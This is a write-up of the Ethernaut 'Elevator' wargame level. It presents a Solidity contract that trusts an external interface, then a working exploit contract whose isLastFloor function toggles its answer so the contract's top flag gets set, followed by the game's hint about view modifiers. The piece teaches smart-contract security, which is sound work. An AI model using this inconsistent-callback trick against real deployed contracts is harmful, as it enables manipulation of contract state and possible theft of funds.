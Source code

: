 # Elevator



This elevator won't let you reach the top of your building. Right?

Things that might help:
- Sometimes solidity is not good at keeping promises.
- This Elevator expects to be used from a Building.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}

```

## Solution

To complete this challenge we have to set the top variable of the Elevator contract to true. 

In order to achive that the `isLastFloor` function in the `Building` contract should return `false` when called first for the if condition

- `if (! building.isLastFloor(_floor))   `

 andreturn `true` when called for the second time for the variable assignment 
 - `top = building.isLastFloor(floor);`

```

contract Building {

  Elevator elevator;
  bool toggle = true;
  function isLastFloor(uint _floor) external returns (bool){
    toggle = !toggle;
    return toggle;
  }

  function callGoTo(address _elevator) public {
    elevator = Elevator(_elevator);
    elevator.goTo(1);

  }
}

```


### Hint from Ethernaut

You can use the view function modifier on an interface in order to prevent state modifications. The pure modifier also prevents functions from modifying the state. Make sure you read Solidity's documentation and learn its caveats.

An alternative way to solve this level is to build a view function which returns different results depends on input data but don't modify state, e.g. gasleft().
